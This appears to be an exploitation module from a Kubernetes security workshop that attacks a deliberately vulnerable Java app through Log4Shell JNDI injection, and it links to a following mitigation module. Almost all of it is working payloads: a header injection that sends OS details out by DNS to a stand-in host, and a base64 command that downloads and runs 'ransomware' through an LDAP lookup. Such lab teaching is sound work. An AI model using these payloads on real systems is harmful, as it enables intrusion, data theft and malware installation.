


# Exploitation 

Let's exploit the vulnerable java-app workload.

## Get a shell to a running container

```
kubectl exec -it -n attack attack -- bash
```

Try a valid request to start

```
curl -v -H 'X-Api-Version: 1.0' 'java-app.java-app'
```

## Data exfiltration

```
curl -v -H \
  'X-Api-Version: ${jndi:dns://${sys:os.name}.${sys:os.version}.evildoer.xyz}' \
  'java-app.java-app'
```

Here are some other interesting properties you can access to fingerprint the target.

```
${sys:os.name}
${sys:os.version}
${sys:user.name}
${sys:user.dir}
${sys:java.version}
```



## Remote code execution

Create a base64 encoded playload to install our malware

```
echo -n 'wget evildoer.xyz/ransomware;chmod +x /ransomware;./ransomware' | base64
```

```
d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=
```

Append the output to the end of the JNDI lookup url

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/<PUT BASE64 ENCODED PAYLOAD HERE>} \
  'java-app.java-app'
```

So you end up with

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'java-app.java-app'

```




[Next -> Module 7](mitigation.md)
